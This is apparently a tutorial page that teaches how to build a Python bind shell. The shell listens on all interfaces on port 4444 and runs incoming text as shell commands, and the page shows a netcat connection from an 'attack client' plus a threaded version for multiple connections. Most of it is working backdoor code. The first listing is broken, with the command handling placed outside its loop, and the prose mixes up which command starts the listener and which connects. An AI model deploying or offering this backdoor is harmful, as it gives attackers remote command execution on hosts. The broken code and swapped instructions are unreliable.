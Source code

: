 # Python Bind Shell

A bind shell is a process that binds to an IP address and port on a host machine to listen to incoming connections. The shell repeatedly listens for bytes sent to it and treats them as raw commands to be executed as a system subprocess. Once all bytes have been recieved, it runs the command on the host and returns the output.

A crude example of a bind shell is as follows:

>import socket
>import subprocess
>import click
>
>def run_cmd(cmd):
>	output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>	return output.stdout
>	
>\@click.command()
>\@click.option('--port', '-p', default=4444)
>def main(port):
>	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>	s.bind(('0.0.0.0', port))
>	s.listen(4)
>	client_socket, address = s.accept()
>	
>	while True:
>		chunks = \[]
>		chunk = client_socket.recv(2048)
>		chunks.append(chunk)
>	cmd = (b''.join(chunks)).decode()\[:-1]
>	
>	if cmd.lower() == 'exit':
>		client_socket.close()
>		break
>		
>	output = run_cmd(cmd)
>	client_socket.sendall(output)
>	
>if \_\_name\_\_ == '\_\_main\_\_':
>	main()

This code contains a wrapper function for execution and a main function to contain the logic.

The main function sets up a socket and binds it to 0.0.0.0 (all available interfaces) and the specified port. Then it is configured to allow up to four unaccepted connections before refusing more - this is configured by the listen() function. The socket then accepts new incoming connections, this is known as a blocking call. The code will stop at this line, when connections are established, accept call returns two things to the variables client_socket and 'address'.

Inside the while loop, the following is happening:

- all incoming bytes from the attack client are recieved.
- incoming bytes are converted to cmd string.
- the connection is closed if 'cmd' is 'exit'.
- otherwise the command is executed locally and output is returned to the attack client.

The last byte of the cmd string is removed because it is a 'newline' byte from pressing the enter key.

We can use nc (netcat) on the attack client to connect to the bind shell and gain remote code execution with the following command:

>python bindshell.py --port 4444

We can then run the following command to start the listener after running the script:

>nc 10.10.10.10 4444 -nv

### Supporting Multiple Connections

A disadvantage to this method is that the process will stop when we disconnect our shell. This can be remedied by introducing threads that run the command execution part of the code. This creates a new thread every time a machine connects to our shell.

A simplified explanation of threads, is that they enable us to run different pieces of code concurrently - this is distinctly different than parallel. This means that while one thread is performing a process, another is available to receive a new connection. This allows for multiple executions on the target machine.

The code that includes thread implementation is as follows:

>import socket
>import subprocess
>import click
>from threading import Thread
>
>def run_cmd(cmd):
>	output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>	return output.stdout
>	
>def handle_input(client_socket):
>	while True:
>		chunks = \[]
>		chunk = client_socket.recv(2048)
>		chunks.append(chunk)
>		while len(chunk) != 0 and chr(chunk\[-1]) != '\\n':
>			chunk = client_socket.recv(2048)
>			chunks.append(chunk)
>		cmd = (b''.join(chunks)).decode()\[:-1]
>		
>		if cmd.lower() == 'exit':
>			client_socket.close()
>			break
>			
>		output = run_cmd(cmd)
>		client_socket.sendall(output)
>	
>\@click.command()
>\@click.option('--port', '-p', default=4444)
>def main(port):
>	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>	s.bind(('0.0.0.0', port))
>	s.listen(4)
>	
>	while True:
>		client_socket, \_ = s.accept()
>		t = Thread(target=handle_input, args=(client_socket, ))
>		t.start()
>	
>if \_\_name\_\_ == '\_\_main\_\_':
>	main()
